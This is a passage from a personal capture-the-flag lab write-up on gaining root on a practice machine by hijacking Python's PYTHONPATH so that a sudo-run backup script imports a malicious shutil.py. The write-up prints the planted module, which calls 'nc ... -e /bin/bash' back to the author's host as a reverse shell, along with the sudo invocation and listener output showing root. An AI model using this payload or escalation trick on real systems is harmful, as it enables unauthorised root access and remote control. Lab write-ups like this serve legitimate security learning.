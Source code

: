 I knew that I am not in a rabbit hole because the clue was pretty strong that I have to do something with these 2 files only. Here is where my python coding experience came in handy. I knew that a script looks for imports first in it's current directory. But we don't have the write permissions for the `/opt/scripts/`. Then I decide to checkout the `PYTHONPATH` with `echo $PYTHONPATH` which returned nothing, meaning that the variable is not set and we can manipulate it.

Some recap on PYTHONPATH. It is an environment variable that tells Python about where to look for imported files. So if we are able to manipulate that and tell python to look for our own created mailicious file and import it instead we can try and run it as root. Here is some [reference for that](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8). (ours is the 3rd scenario according to this article)

I do exactly that first make another folder first in side the /tmp directory, and make file named "shutil.py" with contents like this

```
#!/usr/bin/python3

import os

def make_archive(a,b,c):
	os.system("nc 10.10.14.61 1234 -e /bin/bash")
```

Next we just need to set the environment variable and run the 6th option(the option which runs the python script) in the admin_tasks script. Also setup a netcat listener in another tab.

Now we just do something like

```
sudo PYTHONPATH=/tmp/newshutil ./admin_tasks.sh 6
```

we set the PYTHONPATH  as /tmp/newshutil which means now every script will look there first for any imported files. And then we run the admin script with the option 6 to run the backup.py file with root privileges.
And...

```
nc -lvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 10.10.10.187 59722 received!
whoami
root
```

Rooting this was one of the really fun processes but not a big fan of the user flag. I really liked the box due to the amount of tricks that had to be used. It had the lengthiest process to get the user flag among all the boxes I have solved yet. I have been at it for about TWO days and I am going to sleep now. Good Night!







